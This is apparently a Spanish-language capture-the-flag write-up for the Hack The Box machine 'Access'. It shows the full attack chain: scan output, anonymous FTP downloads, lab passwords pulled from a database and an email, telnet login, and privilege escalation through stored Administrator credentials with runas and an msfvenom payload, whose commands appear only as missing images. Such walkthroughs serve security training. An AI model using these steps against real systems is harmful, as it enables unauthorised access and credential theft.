








Hack The Box - Access
| Nombre | Access |
|---|---|
| OS | Windows |
| Puntos | 20 |
| Dificultad | Facil |
| IP | 10.10.10.98 |
| Maker | egre55 |
NMAP
Utilizando la herramienta nmap para escaneo de puertos y servicios.
Starting Nmap 7.70 ( https://nmap.org ) at 2018-09-29 21:08 CST
Initiating SYN Stealth Scan at 21:08
Scanning 10.10.10.98 (10.10.10.98) [65535 ports]
Discovered open port 23/tcp on 10.10.10.98
Discovered open port 80/tcp on 10.10.10.98
Discovered open port 21/tcp on 10.10.10.98
Completed SYN Stealth Scan at 21:15, 438.01s elapsed (65535 total ports)
Initiating Service scan at 21:15
Scanning 3 services on 10.10.10.98 (10.10.10.98)
Completed Service scan at 21:18, 160.97s elapsed (3 services on 1 host)
Completed NSE at 21:19, 1.78s elapsed
Nmap scan report for 10.10.10.98 (10.10.10.98)
Host is up (0.37s latency).
Not shown: 65532 filtered ports
PORT STATE SERVICE VERSION
21/tcp open ftp Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst:
|_ SYST: Windows_NT
23/tcp open telnet?
80/tcp open http Microsoft IIS httpd 7.5
| http-methods:
| Supported Methods: OPTIONS TRACE GET HEAD POST
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: specialized|general purpose|phone
Running (JUST GUESSING): Microsoft Windows 7|8|Phone|2008|8.1|Vista (91%)
OS CPE: cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1
Aggressive OS guesses: Microsoft Windows Embedded Standard 7 (91%), Microsoft Windows 8.1 Update 1 (91%), Microsoft Windows Phone 7.5 or 8.0 (91%), Microsoft Windows 7 or Windows Server 2008 R2 (90%), Microsoft Windows Server 2008 (90%), Microsoft Windows Server 2008 R2 (90%), Microsoft Windows Server 2008 R2 or Windows 8.1 (90%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (90%), Microsoft Windows 7 (90%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (90%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.017 days (since Sat Sep 29 20:54:14 2018)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=263 (Good luck!)
IP ID Sequence Generation: Busy server or unknown class
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
TRACEROUTE (using port 23/tcp)
HOP RTT ADDRESS
1 342.05 ms 10.10.12.1 (10.10.12.1)
2 340.87 ms 10.10.10.98 (10.10.10.98)
NSE: Script Post-scanning.
Initiating NSE at 21:19
Completed NSE at 21:19, 0.00s elapsed
Initiating NSE at 21:19
Completed NSE at 21:19, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 646.94 seconds
Raw packets sent: 131457 (5.788MB) | Rcvd: 537 (26.626KB)
HTTP

Se utilizo la herramienta gobuster para realizar una busqueda de archivos, directorios, etc. dentro del sitio web.
root@sckull:~/htb/access# gobuster -u http://10.10.10.98/ -w /usr/share/wordlists/dirb/common.txt -np -x asp,aspx,txt,html -t 15
=====================================================
Gobuster v2.0.1 OJ Reeves (@TheColonial)
=====================================================
[+] Mode : dir
[+] Url/Domain : http://10.10.10.98/
[+] Threads : 15
[+] Wordlist : /usr/share/wordlists/dirb/common.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions : aspx,txt,html,asp
[+] Timeout : 10s
=====================================================
2019/03/03 02:43:38 Starting gobuster
=====================================================
/Index.html (Status: 200)
No encontramos mucho para poder explorar mas que solo el index.html.
FTP
Iniciamos sesion en el servicio FTP con el usuario y contraseña ‘anonymous’. Dentro de este encontramos dos carpetas y dos archivos.
root@sckull:~/htb/access# ftp 10.10.10.98
Connected to 10.10.10.98.
220 Microsoft FTP Service
Name (10.10.10.98:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls -la
200 PORT command successful.
150 Opening ASCII mode data connection.
08-23-18 08:16PM <DIR> Backups
08-24-18 09:00PM <DIR> Engineer
226 Transfer complete.
ftp> cd Backups
250 CWD command successful.
ftp> ls -la
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-23-18 08:16PM 5652480 backup.mdb
226 Transfer complete.
ftp> bin
200 Type set to I.
ftp> get backup.mdb
local: backup.mdb remote: backup.mdb
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
5652480 bytes received in 147.73 secs (37.3663 kB/s)
ftp> cd ../Engineer
250 CWD command successful.
ftp> ls -lah
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-24-18 12:16AM 10870 Access Control.zip
226 Transfer complete.
ftp> get Access\ Control.zip
local: Access Control.zip remote: Access Control.zip
200 PORT command successful.
150 Opening BINARY mode data connection.
226 Transfer complete.
10870 bytes received in 4.72 secs (2.2477 kB/s)
ftp> quit
221 Goodbye.
root@sckull:~/htb/access# ls
'Access Control.zip' backup.mdb
Ahora tenemos dos archivos ‘Access Control.zip’ y ‘backup.mdb’.
Analizando los archivos de que obtuvimos en FTP, encontramos que backup.mdb es un archivo de Microsoft Access Database y Access Control.zip al intentar descomprimir los archivos dentro, nos pide una contraseña.
root@sckull:~/htb/access# file backup.mdb
backup.mdb: Microsoft Access Database
root@sckull:~/htb/access# file 'Access Control.zip'
Access Control.zip: Zip archive data, at least v2.0 to extract
root@sckull:~/htb/access# binwalk 'Access Control.zip'
DECIMAL HEXADECIMAL DESCRIPTION
--------------------------------------------------------------------------------
0 0x0 Zip archive data, encrypted at least v2.0 to extract, compressed size: 10678, uncompressed size: 271360, name: Access Control.pst
10848 0x2A60 End of Zip archive, footer length: 22
En el primer archivo utilizamos la pagina ‘https://www.mdbopener.com/' para realizar alguna busqueda de datos que nos pudiesen ayudar de alguna forma en algun otro servicio y encontramos una base de datos de lo que parece ser de una empresa, nos centramos en datos de usuarios y contraseñas y econtramos una tabla que se hace llamar ‘auth_user’ con los siguientes datos:
TABLAS

auth_user

Utilizando la contraseña ‘access4u@security’ para descomprimir los archivos que ‘Access Control.zip’ contiene, encontramos un archivo ‘Access Control.pst’.
root@sckull:~/htb/access# 7z x 'Access Control.zip'
7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,3 CPUs Intel(R) Core(TM) i5-8250U CPU @ 1.60GHz (806EA),ASM,AES-NI)
Scanning the drive for archives:
1 file, 10870 bytes (11 KiB)
Extracting archive: Access Control.zip
--
Path = Access Control.zip
Type = zip
Physical Size = 10870
Enter password (will not be echoed):
Everything is Ok
Size: 271360
Compressed: 10870
root@sckull:~/htb/access# ls
'Access Control.pst'
Utilizando readpst para lectura del archivo, nos genera un archivo de tipo mbox.
root@sckull:~/htb/access# readpst 'Access Control.pst'
Opening PST file and indexes...
Processing Folder "Deleted Items"
"Access Control" - 2 items done, 0 items skipped.
root@sckull:~/htb/access# ls
'Access Control.mbox'
Para lectura de este archivo utilizamos ‘mail -f Access Control.mbox’.
root@sckull:~/htb/access# mail -f Access\ Control.mbox
Status: RO
From: john@megacorp.com <john@megacorp.com>
Subject: MegaCorp Access Control System "security" account
To: 'security@accesscontrolsystems.com'
Date: Thu, 23 Aug 2018 23:44:07 +0000
MIME-Version: 1.0
Content-Type: multipart/mixed;
boundary="--boundary-LibPST-iamunique-387867163_-_-"
----boundary-LibPST-iamunique-387867163_-_-
Content-Type: multipart/alternative;
boundary="alt---boundary-LibPST-iamunique-387867163_-_-"
--alt---boundary-LibPST-iamunique-387867163_-_-
Content-Type: text/plain; charset="utf-8"
Hi there,
The password for the “security” account has been changed to 4Cc3ssC0ntr0ller. Please ensure this is passed on to your engineers.
Regards,
John
....
Telnet - Obteniendo Acceso
Como pudimos observar el archivo ‘Access Control.mbox’ es un archivo que contiene un email, dentro de el John nos indica que la contraseña para el usuario ‘security’ fue cambiada a ‘4Cc3ssC0ntr0ller’. Aprovechando estos datos procedemos a utilizar el servicio telnet para conectarnos.
root@sckull:~/htb/access# telnet 10.10.10.98
Trying 10.10.10.98...
Connected to 10.10.10.98.
Escape character is '^]'.
Welcome to Microsoft Telnet Service
login: security
password:
*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>cd Desktop
C:\Users\security\Desktop>dir
Volume in drive C has no label.
Volume Serial Number is 9C45-DBF0
Directory of C:\Users\security\Desktop
03/03/2019 03:12 AM <DIR> .
03/03/2019 03:12 AM <DIR> ..
03/03/2019 03:12 AM 73,802 shell.exe
08/21/2018 10:37 PM 32 user.txt
2 File(s) 73,834 bytes
2 Dir(s) 16,771,272,704 bytes free
C:\Users\security\Desktop>more user.txt
ff1f3b4[...]
C:\Users\security\Desktop>
Y asi obtenemos nuestra primera bandera ‘user.txt’.
Privilege Escalation
Enumerando archivos y directorios no encontramos nada, pero al utilizar el comando ‘cmdkey /list’ encontramos que el usuario Administrator tiene una contraseña guardada.
C:\Users\security\Links>cmdkey /list
Currently stored credentials:
Target: Domain:interactive=ACCESS\Administrator
Type: Domain Password
User: ACCESS\Administrator
C:\Users\security\Links>
Utilizando ‘runas’ para ejecutar comandos con el usuario Administrator y con la contraseña guardada en la maquina. Primero generamos nuestro payload con msfvenom y ponemos a la escucha nuestro exploit.
Metasploit

Msfvenom

Teniendo nuestro entorno local listo, procedemos a descargar nuestro payload a la maquina y ejecutarlo con ‘runas’.
CMD

Python HTTP Server

En nuestro entorno local obtenemos una sesion y con el privilegios de administracion.
Metasploit - Sesion
